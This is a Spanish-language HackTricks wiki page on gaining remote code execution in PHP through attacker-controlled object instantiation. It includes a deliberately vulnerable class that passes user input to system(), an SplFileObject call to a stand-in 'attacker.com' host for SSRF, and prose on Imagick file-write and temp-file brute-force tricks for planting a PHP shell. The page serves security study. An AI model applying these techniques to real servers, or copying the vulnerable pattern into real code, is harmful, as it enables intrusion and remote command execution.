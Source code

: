 # PHP - RCE abusando de la creación de objetos: new $\_GET\["a"]\($\_GET\["b"])

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}

Este es básicamente un resumen de [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

## Introducción

La creación de nuevos objetos arbitrarios, como `new $_GET["a"]($_GET["a"])`, puede llevar a la Ejecución Remota de Código (RCE), como se detalla en un [**escrito**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/). Este documento destaca varias estrategias para lograr RCE.

## RCE a través de Clases Personalizadas o Autocarga

La sintaxis `new $a($b)` se utiliza para instanciar un objeto donde **`$a`** representa el nombre de la clase y **`$b`** es el primer argumento pasado al constructor. Estas variables pueden provenir de entradas de usuario como GET/POST, donde pueden ser cadenas o arreglos, o de JSON, donde pueden presentarse como otros tipos.

Considera el siguiente fragmento de código:
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

class App2 {
function App2 ($cmd) {
system($cmd);
}
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
En este caso, establecer `$a` en `App` o `App2` y `$b` en un comando del sistema (por ejemplo, `uname -a`) resulta en la ejecución de ese comando.

**Las funciones de autoloading** pueden ser explotadas si no hay tales clases accesibles directamente. Estas funciones cargan automáticamente clases desde archivos cuando se necesitan y se definen utilizando `spl_autoload_register` o `__autoload`:
```php
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
include $class_name . '.php';
};

spl_autoload_register();
```
El comportamiento de la carga automática varía con las versiones de PHP, ofreciendo diferentes posibilidades de RCE.

## RCE a través de Clases Incorporadas

Al carecer de clases personalizadas o cargadores automáticos, **las clases incorporadas de PHP** pueden ser suficientes para RCE. El número de estas clases varía entre 100 y 200, según la versión de PHP y las extensiones. Se pueden listar utilizando `get_declared_classes()`.

Los constructores de interés se pueden identificar a través de la API de reflexión, como se muestra en el siguiente ejemplo y el enlace [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF).

**RCE a través de métodos específicos incluye:**

### **SSRF + Deserialización de Phar**

La clase `SplFileObject` permite SSRF a través de su constructor, permitiendo conexiones a cualquier URL:
```php
new SplFileObject('http://attacker.com/');
```
SSRF puede llevar a ataques de deserialización en versiones de PHP anteriores a 8.0 utilizando el protocolo Phar.

### **Explotando PDOs**

El constructor de la clase PDO permite conexiones a bases de datos a través de cadenas DSN, lo que potencialmente habilita la creación de archivos u otras interacciones:
```php
new PDO("sqlite:/tmp/test.txt")
```
### **SoapClient/SimpleXMLElement XXE**

Las versiones de PHP hasta 5.3.22 y 5.4.12 eran susceptibles a ataques XXE a través de los constructores `SoapClient` y `SimpleXMLElement`, dependiendo de la versión de libxml2.

## RCE a través de la extensión Imagick

En el análisis de las **dependencias del proyecto**, se descubrió que **Imagick** podría ser aprovechado para **ejecución de comandos** al instanciar nuevos objetos. Esto presenta una oportunidad para explotar vulnerabilidades.

### Analizador VID

Se identificó la capacidad del analizador VID de escribir contenido en cualquier ruta especificada en el sistema de archivos. Esto podría llevar a la colocación de un shell PHP en un directorio accesible por la web, logrando Ejecución Remota de Código (RCE).

#### Analizador VID + Carga de Archivos

Se observa que PHP almacena temporalmente los archivos subidos en `/tmp/phpXXXXXX`. El analizador VID en Imagick, utilizando el protocolo **msl**, puede manejar comodines en las rutas de archivos, facilitando la transferencia del archivo temporal a una ubicación elegida. Este método ofrece un enfoque adicional para lograr escritura arbitraria de archivos dentro del sistema de archivos.

### Caída de PHP + Fuerza Bruta

Un método descrito en el [**escrito original**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) implica subir archivos que provocan una caída del servidor antes de su eliminación. Al forzar el nombre del archivo temporal, se vuelve posible que Imagick ejecute código PHP arbitrario. Sin embargo, se encontró que esta técnica solo era efectiva en una versión desactualizada de ImageMagick.

## Referencias

* [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
